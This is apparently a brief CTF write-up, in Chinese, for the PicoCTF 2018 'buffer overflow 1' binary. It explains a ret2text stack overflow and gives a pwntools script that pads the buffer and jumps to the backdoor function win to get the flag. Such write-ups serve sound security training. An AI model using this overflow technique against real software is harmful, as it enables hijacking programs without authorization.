

- `ret2text`

1. `vuln`函数中`s`变量存在溢出
2. 存在后门函数
3. 构造`payload`填充再跳转到后门函数`win`就可以得到`flag`

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_1')
padding = b'A'*(0x28+0x4)
payload = padding+p32(0x080485CB)
io.sendlineafter(b'Please enter your string: \n',payload)
io.interactive()
```

